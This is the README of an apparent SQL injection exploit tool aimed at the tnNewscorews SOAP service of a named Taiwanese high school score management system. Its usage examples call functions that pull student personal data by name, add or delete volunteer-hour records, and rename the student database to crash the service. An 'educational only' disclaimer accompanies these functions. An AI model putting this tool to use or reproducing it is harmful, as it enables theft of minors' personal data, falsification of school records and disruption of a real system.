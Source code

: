 # TNSQLI Proof of Concept (PoC)

## Overview
This repository demonstrates a Proof of Concept (PoC) for SQL Injection vulnerabilities in the `tnNewscorews` web service of the Taiwanese high school score management system. The tool interacts with a SOAP-based API to perform malicious SQL queries and retrieve sensitive information.

> **Warning:** This code is intended for educational purposes and authorized security testing only. Unauthorized use of this script on live systems is illegal and unethical.

## Features
- **SQL Injection:** Exploits vulnerable SOAP APIs to execute unauthorized SQL queries.
- **Data Extraction:** Retrieves detailed student information, grades, teacher records, and attendance statistics.
- **Database Manipulation:** Allows insertion, deletion, and modification of records.
- **Database Operations:** Includes database renaming for crash simulations.

## Requirements
- Python 3.7+
- `requests` library
- `xml.etree.ElementTree` for XML parsing

Install dependencies using:
```bash
pip install requests
```

## File Structure
- `tnscorews_sqli.py`: The main Python file containing the `tnscorews_sqli` class for interacting with the SOAP API.

## Usage
### Initialization
Create an instance of the `tnscorews_sqli` class:
```python
from tnsqli import tnscorews_sqli

tnsqli = tnscorews_sqli()
```

### Retrieve Student Information
Retrieve a student's details by name:
```python
student_info = tnsqli.Get_Student_Info_By_Name("John Doe")
print(student_info)
```

Retrieve a student's details by school code and name:
```python
student_info = tnsqli.Get_Student_Info_By_Sch_And_Name("12345", "John Doe")
print(student_info)
```

### Manipulate Database
Rename the primary student database:
```python
tnsqli.CrashDB()
```

Restore the original database name:
```python
tnsqli.FixDB()
```

### Add or Remove Records
Add volunteer service hours for a student:
```python
tnsqli.Add_Volunteer(
    sch_code="12345",
    std_no="67890",
    sch_year="2024",
    sch_term="1",
    hours="10",
    service_contents="Community Service",
    writer_id_no="A123456789",
    writer_name="Teacher A"
)
```

Remove a volunteer record by ID:
```python
tnsqli.Remove_Volunteer_By_Id(123)
```

## Legal Disclaimer
This project is intended for **educational purposes only**. The use of this code against any system without explicit permission is strictly prohibited. The author assumes no liability for misuse.

## Contributing
Contributions are welcome! Please submit a pull request or open an issue to discuss potential improvements.

## License
This project is licensed under the [MIT License](LICENSE).

## Acknowledgments
- Inspired by real-world security challenges in SOAP APIs.
- Thanks to the cybersecurity community for their continuous effort in making systems more secure.
